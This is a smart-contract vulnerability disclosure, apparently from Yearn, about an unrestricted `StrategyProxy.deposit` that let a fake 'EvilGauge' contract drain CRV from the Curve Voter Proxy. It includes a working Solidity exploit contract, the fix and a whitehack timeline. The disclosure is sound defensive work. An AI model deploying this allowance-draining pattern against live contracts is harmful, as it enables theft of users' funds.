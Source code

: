 # Vulnerability disclosure 2020-10-10

## Summary

- A vulnerability that puts token balance of Curve Voter Proxy at risk was discovered.
- The only token in its balance was $20k worth of CRV.
- The vulnerability was exploited by the team, all funds are rescued.

## Background

At 11:00 (UTC) Emiliano Bonassi shares a concern that `StrategyProxy.deposit(address gauge, address token)` can be executed by anyone. He explains that by constructing a fake gauge contract, it's possible to force `CurveYCRVVoter` to call `deposit(uint amount)` on it with a token allowance.

The concern is initially dismissed as funds should never end up in the proxy. Emiliano follows up with the info that there is in fact 34,352 CRV sitting in the Voter Proxy.

A few moments later Artem writes a proof of concept exploit contract, and confirms the vulnerability in forked mainnet.

The team decides to whitehack the contract to not put funds at risk. Artem exploits the contract and sends the recovered funds to multisig.

## Details of vulnerability

An `EvilGauge` contract which mimics Curve Gauge can be constructed. An attacker calls `StrategyProxy.deposit(EvilGauge, Token)`, which calls and then calls `CurveYCRVVoter.execute` with the following actions:
- `Token.approve(EvilGauge, Token.balanceOf(CurveYCRVVoter))` 
- `EvilGauge.deposit(Token.balanceOf(CurveYCRVVoter))`

Since `EvilGauge` has allowance from `CurveYCRVVoter`, it can `Token.transferFrom` that amount of funds for its benefit.

## Exploit contract

```solidity
pragma solidity =0.5.17;

import "@openzeppelinV2/contracts/token/ERC20/IERC20.sol";

contract EvilGauge {

    IERC20 token;
    address owner;

    constructor(address _token) public {
        owner = msg.sender;
        token = IERC20(_token);
    }

    function deposit(uint amount) public {
        token.transferFrom(msg.sender, owner, amount);
    }
}
```

## Details of fix

`StrategyProxy.deposit(address,address)` must only be callable by approved Strategies:

```solidity
require(strategies[msg.sender], "!strategy");
```

Each proxy strategy should call `StrategyProxy.lock()` on `harvest()` to avoid leaving residue CRV in Voter Proxy contract.

## Timeline of events

- **Oct 10, 2020, 11:00 UTC** Emiliano raises the concern in YFI Secret Admirers chat.
- **12:53** Emiliano reaches out to Artem with more details, Artem writes the exploit.
- **13:09** Exploit is confirmed to steal funds in forked mainnet.
- **13:15** Exploit deployed on mainnet and the contract is whitehacked. The funds are sent to yearn multisig.

## Links

- Whitehack [transaction](https://ethtx.info/mainnet/0x8302d3481d2b4eb6b5ba7d6b467e3ce8cd3450dac3c8857aac7964bd54ed507a)
